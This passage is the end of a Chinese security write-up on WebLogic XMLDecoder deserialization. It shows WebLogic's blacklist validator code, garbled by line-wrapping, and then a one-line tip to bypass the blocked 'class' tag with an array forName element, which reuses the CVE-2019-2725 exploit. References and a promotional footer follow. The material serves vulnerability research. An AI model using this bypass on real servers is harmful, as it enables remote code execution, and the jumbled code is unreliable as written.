         public void startElement(String uri, String localName, String qName,
Attributes attributes) throws SAXException {
if (qName.equalsIgnoreCase("object")) { throw new IllegalStateException("Invalid } else if (qName.equalsIgnoreCase("class")) throw new IllegalStateException("Invalid } else if (qName.equalsIgnoreCase("new")) { throw new IllegalStateException("Invalid
element qName:object"); {
element qName:class");
element qName:new"); } else if (qName.equalsIgnoreCase("method")) {
throw new IllegalStateException("Invalid element qName:method"); } else {
if (qName.equalsIgnoreCase("void")) {
for(int i = 0; i < attributes.getLength(); ++i) {
if (!"index".equalsIgnoreCase(attributes.getQName(i))) { throw new IllegalStateException("Invalid attribute for
element void:" + attributes.getQName(i)); }
} }
if (qName.equalsIgnoreCase("array")) {
String attClass = attributes.getValue("class");
if (attClass != null && !attClass.equalsIgnoreCase("byte")) {
throw new IllegalStateException("The value of class attribute is not valid for array element.");
}
String lengthString = attributes.getValue("length"); if (lengthString != null) {
try {
int length = Integer.valueOf(lengthString); if (length >=
WorkContextXmlInputAdapter.MAXARRAYLENGTH) {
throw new IllegalStateException("Exceed array length
limitation");
}
this.overallarraylength += length; if (this.overallarraylength >=
WorkContextXmlInputAdapter.OVERALLMAXARRAYLENGTH) {
throw new IllegalStateException("Exceed over all
array limitation.");
}
                     }

```

这里同样使用了黑名单禁用了`class`标签，使用 `<array method =“forName">` 代替 class 标签即可

exp 就是上面 cve-2019-2725 的 exp

参考文档
====

https://www.kingkk.com/2019/05/Weblogic-XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/

https://0day.design/2020/02/11/WebLogic-XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/

https://xz.aliyun.com/t/5046

https://xz.aliyun.com/t/1848

https://www.anquanke.com/post/id/180725

作者：ghtwf01，文章来源：先知社区

**关注公众号: HACK 之道**  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
